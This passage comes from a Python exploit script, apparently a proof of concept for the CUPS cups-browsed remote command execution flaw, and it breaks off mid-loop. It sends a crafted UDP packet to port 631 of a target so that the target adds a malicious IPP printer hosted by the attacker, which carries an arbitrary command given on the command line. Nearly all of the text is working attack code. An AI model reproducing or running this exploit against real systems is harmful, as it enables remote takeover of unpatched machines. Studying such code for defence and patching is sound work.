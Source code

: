 ```python
def send_browsed_packet(target_ip, target_port, ipp_server, ipp_server_port):
	print(f"Sending upd packet to {target_ip}:{target_port}...")
	printer_type = 2
	printer_state = '3'
	printer_uri = f'http://{ipp_server}:{ipp_server_port}/printers/EVILCUPS'
	printer_location = '"Pwned"'
	printer_info = '"POWN"'
	printer_model = '"HP LaserJet 1020"'
	#Printer type hex format
	packet = f"{printer_type:x} {printer_state} {printer_uri} {printer_location} {printer_info} {printer_model} \n"
	
	#AF_INET means ipv4, SOCK_DGRAM means a socket udp based
	sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	sock.sendto(packet.encode('utf-8'), (target_ip,target_port))
	
	
#It runs the server until the user use Crtl+c
def run_server(server):
	with ServerContext(server):
		try:
			while True:
				time.sleep(.5)
		#It only go out from thw with statement allowing to execute __exit__
		except KeyboardInterrupt:
			pass
	##__exit__ againt it called
	server.shutdown()
	

if __name__ == "__main__":
	if len(sys.argv) != 4:
		print("%s <LOCAL_HOST> <TARGET_HOST> <COMMNAND>" % sys.argv[0])
		quit()
		
	SERVER_HOST = sys.argv[1]
	SERVER_PORT = 12345
	
	command = sys.argv[3]
	
	#It creates a new instance with the malicious printer
	server = IPPServer((SERVER_HOST, SERVER_PORT),
										IPPRequestHandler, MaliciousPrinter(command))
								
	#Using a thread to run a server as the malicious printer
	threading.Thread(
		target = run_server,
		args=(server, )
	).start()
	
	TARGET_HOST = sys.argv[2]
	TARGET_PORT = 631
	
	send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)
	
	print("Please wait, this normally takes 30 seconds....")
	
	seconds = 0
	
	while True:
		#\r carrigae return, makes overwrite the text
		#end="" avoid jumping to another line
		#flush = makes the buffer empty immediately
```